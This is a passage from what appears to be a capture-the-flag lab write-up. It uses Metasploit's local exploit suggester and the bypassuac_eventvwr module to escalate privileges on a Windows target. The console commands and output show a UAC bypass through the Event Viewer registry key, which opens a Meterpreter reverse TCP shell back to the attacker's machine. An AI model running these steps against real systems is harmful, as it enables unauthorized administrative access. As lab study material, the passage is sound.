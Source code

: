 ```plain text
 9   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
...
[*] Post module execution completed
```

There are ten options. What does the first one do?

```plain text
msf6 post(multi/recon/local_exploit_suggester) >  info exploit/windows/local/bypassuac_eventvwr

       Name: Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
     Module: exploit/windows/local/bypassuac_eventvwr
   Platform: Windows
       Arch:
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2016-08-15
...
Description:
  This module will bypass Windows UAC by hijacking a special key in
  the Registry under the current user hive, and inserting a custom
  command that will get invoked when the Windows Event Viewer is
  launched. It will spawn a second shell that has the UAC flag turned
  off. This module modifies a registry key, but cleans up the key once
  the payload has been invoked. The module does not require the
  architecture of the payload to match the OS. If specifying
  EXE::Custom your DLL should call ExitProcess() after starting your
  payload in a separate process. 
```

Since you want to gain permissions to be able to configure Icecast, this module should suffice.

```plain text
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set lhost tun0
lhost => tun0
msf6 exploit(windows/local/bypassuac_eventvwr) > run

[*] Started reverse TCP handler on 10.18.73.99:4444
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (175686 bytes) to 10.10.195.113
[*] Meterpreter session 2 opened (10.18.73.99:4444 -> 10.10.195.113:49383) at 2022-07-28 14:10:25 +0800
[*] Cleaning up registry keys ...

meterpreter >
```

